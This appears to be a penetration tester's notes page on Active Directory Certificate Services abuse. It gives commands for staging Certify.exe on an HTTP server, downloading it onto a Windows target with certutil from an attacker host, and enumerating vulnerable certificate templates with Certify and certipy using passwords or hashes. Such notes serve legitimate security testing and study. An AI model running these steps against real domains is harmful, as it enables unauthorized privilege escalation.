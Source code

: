 # AD CS

> Active Directory Certificate Services (AD CS) is a critical component in enterprise networks. ADCS provides public key infrastructure (PKI) for managing digital certificates used in encryption, authentication, and digital signatures. While AD CS plays a vital role in securing communications and identities, it is often overlooked in security audits, leaving it vulnerable to exploitation. Misconfigurations in AD CS can lead to privilege escalation, lateral movement, and persistent attacks within compromised environments. Understanding and securing AD CS is therefore crucial to preventing certificate abuse and maintaining a robust infrastructure.With several ways to abuse misconfigurations on a Certificate Authority (CA) Server, it can be difficult to detect and respond because the techniques leverage legitimate functionalities within the component and by nature, the certificates (contrary to passwords) can remain active for extended periods of time.

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

#### Methodology:

* Upload `Certify.exe` to a Windows target system or use `certipy-ad` on linux
* Check the misconfiguration results (ESC...)
* Exploit misconfiguration to get more privs



## Get misconfiguration from target system

### Certify.exe (From Windows)

> **Certify** is a C# tool to **enumerate** and **abuse misconfigurations** in Active Directory Certificate Services (AD CS).

{% code title="Kali location" %}
```bash
/opt/SharpCollection/NetFramework_4.7_Any/
```
{% endcode %}

#### How it uses

Copy the executable and transfer it into target machine.

{% hint style="info" %}
SharpCollection required
{% endhint %}

{% code title="Create HTTP server" %}
```bash
cp /opt/SharpCollection/NetFramework_4.7_Any .
python3 -m http.server 80
```
{% endcode %}

{% code title="PowerShell" %}
```powershell
certutil -urlcache -f http://<IP>:<PORT>/Certify.exe
```
{% endcode %}

{% code title="Evil-WinRM" %}
```bash
> upload Certify.exe
```
{% endcode %}

Run the executable on Windows target to find certi vulns.

{% code title="Get Vulnerabilities w/ Certify" %}
```powershell
.\Certify.exe find /vulnerable
```
{% endcode %}



### Certipy.py

> **Certipy** is an offensive tool for **enumerating** and **abusing** Active Directory Certificate Services (AD CS)

{% embed url="https://github.com/ly4k/Certipy" %}

{% hint style="info" %}
Certipy-ad is already installed in kali linux
{% endhint %}

{% hint style="danger" %}
Check if the package is up to date!
{% endhint %}

{% code title="Upgrade package in kali" %}
```bash
pipx install certipy-ad
```
{% endcode %}

#### How it uses

Use the bellow command to get all vulnerabilities of the Certificate Templates.

{% code title="Get with pass" %}
```bash
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled
```
{% endcode %}

{% code title="Get with hash" overflow="wrap" %}
```bash
certipy find -u 'billy@foobar.com' -hashes <hashes> -dc-ip <DC_IP> -vulnerable -enabled
```
{% endcode %}

Use a simple `grep` command to get misconfiguration from the output file.

```bash
cat *_Certipy.txt | grep ESC
```



## Escalate Privilege with CertTemplates misconfigurations

An attacker abusing Active Directory Certificate Services (AD CS) typically follows a sequence of steps, targeting weaknesses in the ESC configuration and processes, focusing on compromising certificates for privilege escalation and lateral movement.



### ESC4 - Vulnerable Certificate Template Access Control

Follow the page below to use this technique to get administrator access to the DC.

{% content-ref url="esc4.md" %}
[esc4.md](esc4.md)
{% endcontent-ref %}





## AD CS common errors

{% embed url="https://sensepost.com/blog/2025/diving-into-ad-cs-exploring-some-common-error-messages/" %}









